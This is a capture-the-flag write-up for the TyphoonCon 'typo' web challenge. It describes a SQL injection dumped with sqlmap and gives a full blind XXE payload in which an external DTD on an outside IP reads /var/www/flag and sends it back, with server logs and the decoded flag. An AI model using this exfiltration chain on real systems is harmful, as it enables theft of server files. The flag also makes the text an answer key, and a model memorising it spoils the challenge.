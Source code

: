 # Challenge
I like to count in base 4 and not in base too, this is why this is hard

Look at my source code, as I am sure you can see my typo

[https://typhooncon-typo.chals.io/](https://typhooncon-typo.chals.io/)

Flag format: SSD{...}

 [typo_src.zip](https://typhooncon.ctfd.io/files/a97808e4dcbca3ef6d29e329c213fd5e/typo_src.zip?token=eyJ1c2VyX2lkIjo1MDcsInRlYW1faWQiOjQwOCwiZmlsZV9pZCI6M30.YrBT2A.cplyDzNsPh35P035avpCOrME31k)

## Solution \[rgolab\]
First part is guessing test:test credentials.
After code analyze we know the data.php?u= is SQLi vuln so we can easly dump DB via sqlmap
then we're able to crack admin password

POST data=
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE convert [ <!ENTITY % remote SYSTEM "http://185.41.69.21:8181/file.dtd">%remote;%int;%trick;]>

<user><username>admin</username></user>


We have to create file.dtd which will be loaded from our server
<!ENTITY % payl SYSTEM "php://filter/read=convert.base64-encode/resource=file:///var/www/flag">
<!ENTITY % int "<!ENTITY &#37; trick SYSTEM 'http://185.41.69.21:8181/?p=%payl;'>">



$ python3 -m http.server 8181
Serving HTTP on 0.0.0.0 port 8181 ...
167.71.247.221 - - [20/Jun/2022 09:39:23] "GET /file.dtd HTTP/1.0" 200 -
167.71.247.221 - - [20/Jun/2022 09:39:23] "GET /?p=SSB3aXNoIGZsbGxsYWdnZ2dnIHdhcyBzcGVsbGxsbGxlZCB3aXRoIG11bHRwbGUgZ2dnZyBhbmQgbGxsbGwKU1NEezE5ZTAxNzY5ZjU2MjA3Y2I0NjIwMTczZjlhYTg3ODliYTViOWU3MWF9Cg== HTTP/1.0" 200 -


$ echo "SSB3aXNoIGZsbGxsYWdnZ2dnIHdhcyBzcGVsbGxsbGxlZCB3aXRoIG11bHRwbGUgZ2dnZyBhbmQgbGxsbGwKU1NEezE5ZTAxNzY5ZjU2MjA3Y2I0NjIwMTczZjlhYTg3ODliYTViOWU3MWF9Cg==" |base64 -d
I wish fllllaggggg was spelllllled with multple gggg and lllll
SSD{19e01769f56207cb4620173f9aa8789ba5b9e71a}


We have the flag: SSD{19e01769f56207cb4620173f9aa8789ba5b9e71a}

#xxe #blind #blindxxe #php #phpfilters